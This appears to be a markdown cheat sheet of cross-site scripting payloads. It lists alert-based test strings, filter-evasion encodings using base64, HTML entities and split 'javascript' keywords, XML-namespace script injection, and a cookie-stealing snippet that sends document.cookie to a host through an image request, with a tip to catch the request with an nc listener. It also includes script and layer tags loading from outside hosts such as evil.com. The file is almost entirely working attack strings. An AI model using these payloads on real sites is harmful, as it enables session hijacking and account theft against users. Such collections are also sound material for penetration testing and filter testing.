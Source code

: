 # XSS (CROSS SITE SCRIPTING)

Quick Payloads
--------------
```
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(123123)</script>
<script>alert(document.cookie)</script>
<svg onload=alert(1)>
"/><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==
"/><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
```

iframe: `<iframe src="http://www.cnn.com" height = "0" width = "0"></iframe>`  

Stealing cookies:  
```
<script>
new Image().src="http://0.0.0.0/bogus.php?output="+document.cookie;
</script>

You can see the browser's request by setting up nc listener on port 80.
```

```
<body background="javascript:alert('running in background');">
<iframe src="javascript:alert('Hello');“/>
<input type=image src="&#74;avascript:alert('Have You')">
<img src='iamnothere.gif' onError=”alert('EventHandler')">
<frameset onLoad="alert('EventHandler')">
<layer name="extern" src="http://evil.com/test.html">
```

* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```

Other:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

XSS and XML
-----------
```
<html:html xmlns:html='http://www.w3.org/1999/xhtml'>
  <html:script>
      alert(document.cookie);
  </html:script>
</html:html>
```

Misc
----

* [JSFuck](http://www.jsfuck.com/) - Javascript with six characters
* [XSS Payloads](http://www.xss-payloads.com/) - a variety of XSS payloads

Resources
---------

* [Cross-Site Scripting (XSS)](http://phpsecurity.readthedocs.io/en/latest/Cross-Site-Scripting-(XSS).html)
